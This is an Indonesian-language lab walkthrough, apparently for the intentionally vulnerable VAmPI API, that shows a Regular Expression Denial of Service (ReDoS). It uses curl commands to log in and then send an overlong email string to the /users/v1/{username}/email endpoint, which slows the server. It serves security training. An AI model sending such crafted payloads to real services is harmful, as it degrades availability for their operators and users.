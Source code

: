 # Regular expression Denial of Service - ReDoS
Regular expression Denial of Service (ReDoS) adalah serangan Denial of Service, yang mengeksploitasi sebagian besar implementasi Regular Expression yang dapat mencapai situasi ekstrem dan menyebabkannya bekerja sangat lambat (secara eksponensial terkait dengan ukuran input). Penyerang dapat menyebabkan program yang menggunakan Regular Expression (Regex) memasuki situasi ekstrem ini dan kemudian hang dalam waktu yang sangat lama. Celah keamanan ini berada di endpoint `/users/v1/{username}/email`. Untuk mengakses endpoint ini kita harus login tersebut dengan akun yang sudah dibuat di proses instalasi kemudian copy nilai `auth_token`

```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"userapi","password":"12345"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%202.JPG)

- Sekarang kita coba ubah email akun user `name1` dengan inputan string yang sangat panjang misalnya `aaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/email -d '{"email":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%204.JPG)

- Dari percobaan diatas terlihat bahwa semakin panjang inputan string yang berikan, server akan semakin lama untuk memprosesnya. Hal ini dapat menyebabkan layanan API tidak dapat diakses dalam kurun waktu tertentu